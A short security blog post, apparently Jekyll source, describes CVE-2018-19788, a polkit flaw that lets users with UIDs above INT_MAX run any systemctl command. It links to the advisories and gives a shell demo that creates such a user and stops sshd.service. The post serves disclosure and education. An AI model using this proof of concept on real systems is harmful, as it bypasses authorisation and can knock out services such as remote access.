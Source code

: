 ```yaml
---
layout: post
title: Critical vulnerability on policykit of systemd
category: security
description: unprivileged users with UID > INT_MAX can successfully execute any systemctl command
---
```


**[CVE-2018-19788]**: A flaw was found in PolicyKit (aka `polkit 0.115`) that allows a user with a uid greater than `INT_MAX` to successfully execute any `systemctl` command.
* [https://github.com/systemd/systemd/issues/11026](https://github.com/systemd/systemd/issues/11026)
* [https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156](https://github.com/freedesktop/polkit/blob/8c1bc8a/src/programs/pkttyagent.c#L156)
* [https://gitlab.freedesktop.org/polkit/polkit/issues/74](https://gitlab.freedesktop.org/polkit/polkit/issues/74)

Find out more about CVE-2018-19788 from the [MITRE CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19788) dictionary and [NIST NVD](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2018-19788)

![](/assets/img/CVE-2018-19788.webp)

<!--description-->

### Demo

```shell
root@ahihi:~# useradd -u 4000000000 wtf
root@ahihi:~# su - wtf
No directory, logging in with HOME=/

$ whoami
wtf
$ id
uid=4000000000(wtf) gid=1002(wtf) groups=1002(wtf)

$ systemctl stop sshd.service

(process:22860): GLib-GObject-WARNING **: value "-294967296" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)

root@ahihi:~# systemctl status sshd.service
...
Dec 05 15:38:39 ahihi systemd[1]: Stopping OpenBSD Secure Shell server...
Dec 05 15:38:39 ahihi systemd[1]: Stopped OpenBSD Secure Shell server.
```

